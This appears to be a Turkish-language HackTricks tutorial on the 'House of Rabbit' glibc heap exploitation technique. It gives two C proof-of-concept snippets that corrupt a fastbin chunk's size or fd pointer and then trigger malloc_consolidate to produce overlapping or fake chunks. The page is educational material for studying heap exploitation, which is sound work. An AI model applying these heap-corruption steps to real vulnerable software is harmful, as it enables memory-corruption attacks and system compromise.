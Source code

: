 # Tavşan Evi

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubumuza**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

### Gereksinimler

1. **Hızlı bin fd işaretçisini veya boyutunu değiştirme yeteneği**: Bu, hızlı binde bir parçanın ileri işaretçisini veya boyutunu değiştirebileceğiniz anlamına gelir.
2. **`malloc_consolidate`'i tetikleme yeteneği**: Bu, büyük bir parça tahsis ederek veya üst parçayı birleştirerek yapılabilir, bu da yığını parçaları birleştirmeye zorlar.

### Hedefler

1. **Üst üste binen parçalar oluşturmak**: Başka bir parçayla örtüşen bir parça oluşturarak yığın manipülasyonlarına olanak tanımak.
2. **Sahte parçalar oluşturmak**: Yalancı bir parçayı yığın işlemleri sırasında meşru bir parça olarak algılamak için tahsildarı kandırmak.

## Saldırı Adımları

### POC 1: Hızlı bin parça boyutunu değiştirme

**Amaç**: Bir hızlı bin parçasının boyutunu manipüle ederek üst üste binen bir parça oluşturmak.

* **Adım 1: Parçalar Tahsis Etme**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Adım 2: Parçaları Serbest Bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Adım 3: Parça Boyutunu Değiştirme**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Adım 4: `malloc_consolidate`'i Tetikleyin**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak, küçük parçaları hızlı kutuya birleştiren `malloc_consolidate` işlevini tetikler. `chunk1`'in manipüle edilen boyutu, `chunk2` ile örtüşmesine neden olur.

Konsolidasyondan sonra, `chunk1`, `chunk2` ile örtüşerek daha fazla sömürüme izin verir.

### POC 2: `fd` işaretçisini değiştir

**Amaç**: Hızlı kutu `fd` işaretçisini manipüle ederek sahte bir parça oluşturmak.

* **Adım 1: Parçaları Ayırma**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Açıklama**: Sahte parça için heap'i kurmak için daha küçük ve daha büyük olmak üzere iki parça tahsis ediyoruz.

* **Adım 2: Sahte parça oluşturun**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Adım 3: `chunk1`'i serbest bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Açıklama**: `chunk1`'i serbest bırakıyoruz, onu fastbin listesine ekliyoruz.

* **Adım 4: `chunk1`'in `fd`'sini değiştirin**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Açıklama**: `chunk1`'in ileri işaretçisini (`fd`) `chunk2` içindeki sahte parçaya işaret edecek şekilde değiştiriyoruz.

* **Adım 5: `malloc_consolidate`'i Tetikle**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Bir büyük parça yeniden tahsis edildiğinde `malloc_consolidate` tetiklenir, sahte parçayı işler.

Sahte parça, fastbin listesinin bir parçası haline gelir, bu da onu daha fazla sömürü için geçerli bir parça haline getirir.

### Özet

**House of Rabbit** tekniği, ya bir fast bin parçasının boyutunu değiştirerek çakışan parçalar oluşturmayı ya da sahte parçalar oluşturmak için `fd` işaretçisini manipüle etmeyi içerir. Bu, saldırganların yasal parçaları heap'te oluşturmalarına olanak tanır ve çeşitli sömürü biçimlerini etkinleştirir. Bu adımları anlamak ve uygulamak, heap sömürü becerilerinizi geliştirecektir.
